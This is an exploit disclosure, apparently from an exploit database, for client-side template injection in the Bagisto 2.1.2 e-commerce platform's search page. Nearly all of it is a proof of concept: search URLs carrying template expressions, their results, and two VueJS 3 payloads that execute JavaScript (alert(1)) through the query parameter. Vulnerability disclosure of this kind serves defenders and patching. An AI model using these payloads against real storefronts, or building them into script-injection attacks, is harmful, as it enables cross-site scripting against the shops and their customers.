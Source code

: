 # Exploit Title: Bagisto 2.1.2 Client-Side Template Injection (CSTI)
**Date**: 06/18/2024  
**Exploit Author**: tmrswrr  
**Vendor Homepage**: [Bagisto Forums](https://forums.bagisto.com/)  
**Version**: 2.1.2  
**Tested on**: [Bagisto Demo](https://demo.bagisto.com/)

## Proof of Concept (PoC)

1. Navigate to the search functionality on Bagisto:

    ```
    https://demo.bagisto.com/bagisto-common/search?query={{7*7}}
    ```
    **Result**: 49

    ```
    https://demo.bagisto.com/bagisto-common/search?query={{'a'.toUpperCase()}}
    ```
    **Result**: A

    ```
    https://demo.bagisto.com/bagisto/search?query={{ Object.keys(this) }}
    ```
    **Result**: [ "_", "onSubmit", "onInvalidSubmit", "lazyImages", "animateBoxes" ]

2. Payloads for VueJS 3:

    ```
    https://demo.bagisto.com/bagisto/search?query={{_openBlock.constructor('alert(1)')()}}
    ```
    ```
    https://demo.bagisto.com/bagisto/search?query={{-function(){this.alert(1)}()}}
    ```

    **Result**: You will see an alert box.
